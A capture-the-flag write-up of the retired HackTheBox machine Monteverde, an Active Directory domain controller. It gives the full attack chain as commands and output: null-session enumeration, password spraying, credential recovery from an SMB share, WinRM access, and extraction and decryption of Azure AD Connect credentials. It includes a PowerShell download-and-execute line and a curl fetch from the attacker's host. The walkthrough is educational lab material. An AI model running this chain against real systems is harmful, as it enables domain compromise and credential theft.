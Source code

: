 # Monteverde

This is the write-up for the box Monteverde that got retired at the 13th June 2020.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.172    monteverde.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/monteverde.nmap 10.10.10.172
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-03-21 12:35:24Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This box seems to be an **Active Directory domain controller** and the hostname _megabank.local_ should be put into the _/etc/hosts_ file.

## Checking RPC (Port 135)

Checking if RPC is configured to accept **null authentication**:
```
rpcclient -U '' 10.10.10.172
```

Without entering a password, authentication to the RPC client works and can be used to enumerate valuable information.

List all users and create a wordlist with them:
```
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

The user _AAD_987d7f2f57d2_ is especially interesting as this is a user for synchronizing passwords between **on-premise Active Directory** and **Azure Active Directory**.

Trying to guess the passwords of the users with a **Password Spraying attack** and using the own usernames as the password:
```
crackmapexec smb 10.10.10.172 -u users.list -p users.list
```

There was one successful hit on the user _SABatchJobs_ that uses the username as the password.

## Checking SMB (Port 445)

Checking which SMB shares the user _SABatchJobs_ has access to with **Smbmap**:
```
smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172
```
```
Disk            Permissions     Comment
----            -----------     -------
ADMIN$          NO ACCESS       Remote Admin
azure_uploads   READ ONLY
C$              NO ACCESS       Default share
E$              NO ACCESS       Default share
IPC$            READ ONLY       Remote IPC
NETLOGON        READ ONLY       Logon server share
SYSVOL          READ ONLY       Logon server share
users$          READ ONLY
```

List contents of all accessible shares recursively:
```
smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 -R
```

In the _users_ share are four directories and in the directory of _mhope_ is a file called _azure.xml_.
Lets download that file to our box:
```
smbclient -U SABatchJobs //10.10.10.172/users$

smb: \> cd mhope\
smb: \mhope\> get azure.xml
```

The _azure.xml_ file has a password in it:
```
(...)
<S N="Password">4n0therD4y@n0th3r$</S>
(...)
```

Testing to which user this password belongs to:
```
crackmapexec smb 10.10.10.172 -u users.list -p '4n0therD4y@n0th3r$'
```
```
crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

The user _mhope_ comes back successfully and also has permission to start a **WinRM** connection:
```
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172
```

This starts a shell session on the box as _mhope_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
curl 10.10.14.11:8000/winPEAS.exe -o winPEAS.exe

.\winPEAS.exe
```

On the box is **Azure AD Connect** installed, which is a service to synchronize passwords between **on-premise Active Directory** and **Azure Active Directory**.
This user is also a member of the group _Azure Admins_ and thus has access to the Azure database.

In this [article of XPN Sec](https://blog.xpnsec.com/azuread-connect-for-redteam/) the way to get information out of the database is described.

The _SQL server command line tool_ `sqlcmd` is by default on this box and can be used to access the databases:
```
sqlcmd -Q "select name,create_date from sys.databases"
```
```
name          create_date
-------------------------------------
master        2003-04-08 09:13:36.390
tempdb        2021-03-21 04:10:35.617
model         2003-04-08 09:13:36.390
msdb          2017-08-22 19:39:22.887
ADSync        2020-01-02 14:53:29.783
```

The database _ADSync_ contains the information we want to extract:
```
sqlcmd -Q "Use ADSync; select private_configuration_xml,encrypted_configuration from mms_management_agent"
```

It outputs an encrypted password:
```
(...)
<forest-login-user>administrator</forest-login-user>
<forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g
```

Before running the [PowerShell script from XPN Sec](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) to decrypt the password, it has to be modified accordingly or it will crash:

Changing the third line in the script to connect to _localhost_:
```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=localhost;Integrated Security=true;Initial Catalog=ADSync"
(...)
```

Uploading and executing the script on the box:
```
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.11:8000/azuread_decrypt_msol_v2.ps1")
```

After executing, it will output the password of _administrator_:
```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

Starting a shell with **impacket-psexec**:
```
impacket-psexec administrator@10.10.10.172
```

It works and starts a shell as _NT Authority\SYSTEM_!
